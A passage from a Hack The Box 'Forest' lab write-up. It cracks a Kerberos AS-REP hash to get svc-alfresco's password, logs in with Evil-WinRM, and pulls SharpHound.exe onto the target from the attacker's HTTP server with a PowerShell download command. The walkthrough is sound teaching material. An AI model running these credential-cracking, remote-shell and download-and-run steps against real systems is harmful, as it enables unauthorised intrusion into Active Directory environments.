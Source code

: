 We get back the following result showing us that it cracked the password.

```text
root@kali:~/Desktop/htb/forest# john --show hash.txt 
$krb5asrep$svc-alfresco@HTB:s3rvice1 password hash cracked, 0 left
```

## Initial Foothold <a id="8fca"></a>

Now that we have the username/password _svc-alfresco/s3rvice_, we’ll use the [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) script to gain an initial foothold on the box. This is only possible because the WinRM and WSMan services are open \(refer to nmap scan\).

```text
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

We get a shell!

![](https://miro.medium.com/max/1110/1*z9cX5m0BZ6YETlAfQZW0HA.png)

Grab the _user.txt_ flag.

![](https://miro.medium.com/max/760/1*DiohUDdApVjdCwjQlOkuIA.png)

## Privilege Escalation <a id="ad2d"></a>

Enumerate the users on the domain.

![](https://miro.medium.com/max/984/1*63pGz3KcZ7d9RPrKJ8lxMA.png)

Enumerate the user account we’re running as.

![](https://miro.medium.com/max/929/1*qkfE3938igExB_1u7c9Eig.png)

The user is part of the _Service Accounts_ group. Let’s run bloodhound to see if there are any exploitable paths.

First, download [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) and setup a python server in the directory it resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, download the executable.

```text
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.45:5555/SharpHound.exe', 'C:\Users\svc-alfresco\Desktop\SharpHound.exe')
```

Then run the program.

```text
./Sharphound.exe
```
